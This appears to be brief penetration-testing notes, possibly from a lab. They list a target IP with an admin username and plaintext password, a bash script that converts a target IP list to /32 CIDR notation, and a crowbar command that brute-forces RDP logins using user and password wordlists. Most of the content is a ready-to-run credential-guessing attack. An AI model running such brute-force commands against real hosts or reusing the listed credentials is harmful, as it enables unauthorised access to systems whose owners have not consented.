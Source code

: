 ```yaml
---
IP_TARGET: 172.16.75.14
PASSWD: DonovanJadeKnight1
USER: admin
PASS:
---
```

- Create list of target IP address (targets.txt)
- Use below script (convert_to_cidr.sh) to convert to CIDR notation:
	```
	#!/bin/bash
	
	# Input and output files
	input_file="targets.txt"
	output_file="targets_CIDR.txt"
	
	# Ensure the input file exists
	if [[ ! -f "$input_file" ]]; then
	    echo "Error: $input_file not found!"
	    exit 1
	fi
	
	# Process each line, append /32, and save to the new file
	awk '{print $0 "/32"}' "$input_file" > "$output_file"
	
	echo "Conversion complete. CIDR-formatted IPs saved in $output_file"
	```
- crowbar -b rdp -S targets_CIDR.txt -U users.txt -C passwords.txt -n 1